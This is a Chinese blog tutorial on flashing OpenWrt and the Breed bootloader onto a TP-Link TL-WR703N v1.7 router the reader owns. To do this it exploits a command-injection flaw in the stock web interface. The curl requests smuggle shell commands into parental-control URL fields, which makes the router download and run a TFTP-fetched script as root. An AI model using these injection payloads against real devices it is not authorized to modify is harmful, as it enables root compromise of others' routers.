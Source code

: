 ```yaml
---
layout: post
title: 给 v1.7 版本的 TL-WR703N 刷 openwrt
key: 2018-03-17-wr703n-openwrt

---       
```

从硬件版本 v1.7 起, WR703N 不再支持直接通过 TP-Link 官方 Web 控制台直接刷入 OpenWrt. TP-Link 更改了 U-boot 的代码, 并且禁止了通过官方控制台刷入 OpenWrt 等非官方固件的方式. 因此唯一的刷入方式只剩下拆机后通过串口刷入. 但我们还有一种方式, 那就是通过利用 Web 服务的一些漏洞, 将我们的代码注入到路由器操作系统内并且以 root 权限执行, 从而达到刷机的目的. 刷入 OpenWrt 之后, 我们就可以自己刷入不死 U-Boot, 之后就可以随意折腾了.     
<!--more-->
## 基本流程      
准备工作 -> 编写脚本 -> 利用漏洞上传并执行 -> 脚本通过 TFTP 下载 busybox 和镜像, 执行 busybox 刷写 kernel 和 rootfs 分区 -> 利用刷入的 OpenWrt 安装 Breed -> 完成     
 
## 需要准备的文件
- 一个 TP-Link TL-WR703N 路由器，确保固件版本为 3.17.1 Build 140120 Rel.56593n
- TL-WR703N 的 openwrt 固件 [openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin](https://archive.openwrt.org/snapshots/trunk/ar71xx/generic/openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin)
- cURL
- TFTP 服务器 (Windows 可以使用 [tftpd32](http://tftpd32.jounin.net/tftpd32_download.html))
- busybox 1.16.1 MIPS 版 [busybox-mips](https://busybox.net/downloads/binaries/1.16.1/busybox-mips)
- Breed Bootloader [Breed 主页](http://www.right.com.cn/forum/thread-161906-1-1.html)  [breed-ar9331-r1163.bin](https://breed.hackpascal.net/EOL/breed-ar9331-r1163.bin)
- 解锁了 u-boot 分区的 OpenWrt 固件 [owrt-703n-uboot.bin](/content/files/2018/owrt-703n/owrt-703n-uboot.bin) 来自 [TP-LINK 全系列解锁 U-Boot 分区固件](http://www.right.com.cn/forum/thread-142763-1-1.html)

## 步骤
### 准备工作
1. 连接路由器的网线接口到电脑, 确认版本与本文是否一致, 并在系统设置中将路由器恢复出厂设置.     
2. 将 ```busybox-mips``` 重命名为 ```busybox```
3. 将电脑 IP 地址设置为静态 (本文中为 192.168.1.9)     

### 分割分区
首先, 利用 ```dd``` 将固件 bin 文件分为 kernel 和 rootfs 两个分区
```
dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i1 bs=1 count=1048576

dd if=openwrt-ar71xx-generic-tl-wr703n-v1-squashfs-factory.bin of=i2 bs=1 skip=1048576
```
得到 i1 和 i2 两个文件 (可以在这里下载 [zip](/content/files/2018/owrt-703n/i1i2.zip))
### 编写 shell 脚本
创建一个名为 ```aa``` 的文件 (文件名可随意), 写入如下内容:
```
cd /tmp
tftp -gl i1 192.168.1.9
tftp -gl i2 192.168.1.9
tftp -gl busybox 192.168.1.9
chmod 755 busybox
./busybox dd if=i1 of=/dev/mtdblock1 conv=fsync
./busybox dd if=i2 of=/dev/mtdblock2 conv=fsync
./busybox reboot -f
```
其中 192.168.1.9 为本机的 IP 地址.    
**注意:** 如果在 Windows 下, 请将编辑器的换行符设置为 Unix 格式 (LF), 或直接下载 [aa](/content/files/2018/owrt-703n/aa)

### 设置 TFTP 服务器
现在应该有四个文件: ```i1```, ```i2```, ```aa```, ```busybox```. 将这四个文件放在同一个目录下, 并且启动 TFTP 服务器, 将服务根目录指向这四个文件所在的目录. 具体方法可自行搜索, 这里不再赘述.

### 利用漏洞上传 shell 并执行
```
curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=true" "http://192.168.1.1/"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?ctrl_enable=1&parent_mac_addr=00-00-00-00-00-02&Page=1"

curl -o - -b "tLargeScreenP=1; subType=pcSub; Authorization=Basic%20YWRtaW46YWRtaW40Mg%3D%3D; ChgPwdSubTag=" --referer "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?Modify=0&Page=1" "http://192.168.1.1/userRpm/ParentCtrlRpm.htm?child_mac=00-00-00-00-00-01&lan_lists=888&url_comment=test&url_0=;cd%20/tmp;&url_1=;tftp%20-gl%20aa%20192.168.1.9;&url_2=;sh%20aa;&url_3=&url_4=&url_5=&url_6=&url_7=&scheds_lists=255&enable=1&Changed=1&SelIndex=0&Page=1&rule_mode=0&Save=%B1%A3+%B4%E6"

```
执行第一二句的时候可能会报错误 (```curl: (23) Failed writing body```), 忽略即可. 第三条命令中, 如果 aa 的文件名和本机的 IP 地址与本文不同, 请自行替换掉对应的文件名 / IP.      
执行完第三条命令后, 如果成功, TFTP 服务器会显示路由器正在从服务器中下载文件, 传输完成后路由器的 LED 灯将开始闪烁. **此时千万不要断开路由器的电源, 否则就只能拆机 TTL 刷机了**      
当 LED 灯停止闪烁后, 打开 http://192.168.1.1 , 应该会看到熟悉的 OpenWrt 登陆界面
**在此时由于 U-boot 还未被替换, 恢复出厂设置会导致变砖, 切记不要恢复出厂设置**    
### 刷入 Breed 
由于原版的 OpenWrt 禁止了对 u-boot 分区的写入, 因此我们首先需要刷入解锁固件 ```owrt-703n-uboot.bin```    
通过 LucI 界面登录路由器, 在系统升级中更新固件为解锁版 OpenWrt, 注意不要勾选保存原有设置的选项.    
等待刷入完成后, 登陆管理界面并设置密码以开启 SSH.    
开启 SSH 后, 使用 WinSCP (或其他软件) 连接到路由器, 将 ```breed-ar9331-r1163.bin``` 上传到 ```/tmp``` 目录下     
然后开始刷入 breed:
```
cd /tmp

mtd -r write breed-ar9331-r1163.bin u-boot 
```
刷入完成后会自动重启, 重启完毕后将路由器断电, 按住 Reset 按钮接通电源, 等待 LED 灯开始闪烁, 松开 Reset 进入 http://192.168.1.1 , 应该就可以看到 Breed 的界面了.     
进入 Breed 后, 记得将 MAC 地址改回路由器背面所写的 MAC 地址.     
最后, 为了安全起见, 建议用 breed 重新刷回原版 OpenWrt 固件, 以防不小心写坏 U-boot 分区.    

## 参考文章
[Flashing TP-Link TL-WR703N v1.7 to OpenWrt](https://www.shadowandy.net/2015/03/flashing-tp-link-tl-wr703n-v1-7-to-openwrt.htm)      
[找到国外牛人给出的不通过TTL刷openwrt到1.7版本的703n的方法](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=159078)      
[tplink tl-wr703n v1.7最新固件 免ttl刷openwrt刷breed](http://www.right.com.cn/forum/forum.php?mod=viewthread&tid=184971)      

